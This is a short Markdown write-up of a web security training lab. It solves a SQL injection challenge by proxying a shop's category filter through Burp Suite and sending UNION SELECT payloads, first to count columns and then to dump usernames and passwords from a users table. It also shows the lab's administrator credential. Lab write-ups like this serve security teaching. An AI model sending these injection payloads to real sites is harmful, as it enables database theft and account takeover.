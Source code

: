 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 10
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/32298c1f-08fc-45aa-9772-36e4d2635e30)

Let's filter for `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/6f54e509-b9f2-434d-9764-35f2e9f6586f)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

![3](https://github.com/Knign/Write-ups/assets/110326359/6ec58a00-8557-4fc7-80e0-10bbbb9fb2b8)

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT NULL--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/23dd6f87-8045-4d2e-9a55-b7ce062a926f)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT NULL,NULL--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/a1355107-c973-4f65-bd6e-adc302c3ea4b)

Now that we know the current query has two columns, we can retrieve the usernames and password from the `username` and `password` columns respectively.

```
' UNION SELECT NULL,username||':'||password FROM users--
```

The `||` characters are used to concatenate strings together. So we are essentially dumping the username and password in the same column in the following format:

```
username:password
```

![6](https://github.com/Knign/Write-ups/assets/110326359/3bd733d5-44e8-4003-8470-880c6b3149ea)

We can now login as the admin using the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | fq4yq6966ve3gff4iz65         |

![7](https://github.com/Knign/Write-ups/assets/110326359/ba4067df-4a1d-4ad5-b00d-7375511f4cc4)

We have solved the lab.

![8](https://github.com/Knign/Write-ups/assets/110326359/3a7114a4-c067-4abb-b98b-02dcd30811fc)

